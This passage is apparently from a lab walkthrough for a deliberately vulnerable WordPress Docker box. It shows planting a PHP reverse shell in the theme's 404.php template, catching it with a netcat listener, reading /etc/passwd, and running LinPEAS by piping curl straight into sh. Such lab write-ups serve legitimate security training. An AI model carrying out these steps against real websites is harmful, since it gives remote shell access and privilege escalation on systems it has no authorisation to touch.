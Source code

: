 
Congrats.

Now lets escape the Wordpress install, this should be easy now we are admin, we have the functionality to upload and run scripts in various ways in wordpress, lets browse to the theme editor.
http://192.168.0.16:7006/wp-admin/theme-editor.php
 
We can insert a php reverse shell inside of a page template, when this page is visited the reverse shell connects to a netcat listener we will set up.


Let's choose the 404 page.
http://192.168.0.16:7006/wp-admin/theme-editor.php?file=404.php&theme=Goldly
Between the <?php <<code>> ?> tags insert the popular php reverse shell by pentestmonkey https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Change the ip and port number inside the script to the ip of the attacking machine; use terminal command ifconfig to find the ip and an unused port.
 
On the attacking machine start up a netcat listener using the command nc -lvp <<port>>
 
To visit this page browse to url
http://192.168.0.16:7006//wordpress/wp-content/themes/Goldly/404.php
 
![This is an image](https://github.com/warren2i/docker/blob/master/lab%20pics/10.png?raw=true)
 
Reverse shell connects to the attacker, now we run the whoami command to get the current user. www-data
 
 
 
 

Priv esc


First let's  get a list of users by reading the contents of the passwd file


```
cat /etc/passwd
```

![This is an image](https://github.com/warren2i/docker/blob/master/lab%20pics/11.png?raw=true)

root will be our target as it has the highest privs.





Let's start by running LinPEAS, LinPEAS is a script that searches for possible paths to escalate privileges on Linux/Unix hosts.


Start by using curl to pull and run the latest compiled branch of LinPEAS
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

LinPEAS will format the results in the following color code based on the % chance of success of a vector.

![This is an image](https://github.com/warren2i/docker/blob/master/lab%20pics/12.png?raw=true)
